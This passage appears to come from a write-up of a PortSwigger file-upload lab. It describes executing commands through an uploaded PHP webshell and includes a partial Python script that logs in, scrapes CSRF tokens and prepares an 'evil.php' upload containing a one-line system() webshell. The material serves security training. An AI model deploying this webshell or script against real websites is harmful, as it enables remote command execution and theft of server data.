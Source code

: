 When viewing my new profile, I saw a GET request send to `/files/avatars/cmd.php`. This webshell allows for RCE:

![](../../.gitbook/assets/portswigger-fileupload-writeup-image-2.png)

To solve this lab, just replace `id` with `cat+/home/carlos/secret`.

Afterwards, I scripted the entire process.

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a86004d04e0743a81ec5291006b00b7'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

r = s.get(url + '/login')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
login_csrf_token = match[1]

data = {
	'csrf':login_csrf_token,
	'username':'wiener',
	'password':'peter'
}

login_r = s.post(url + '/login', data=data)
if login_r.status_code != 200:
	print("[-] Login failed")
	sys.exit(1)

print("[+] Login worked")
profile_r = s.get(url + '/my-account?id=wiener')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', profile_r.text)
upload_csrf_token = match[1]

file = {
	'avatar':('evil.php', '<?php system($_REQUEST["cmd"]); ?>', "application/x-php")
}

form_data = {
	'user':'wiener',
	'csrf':upload_csrf_token
}

```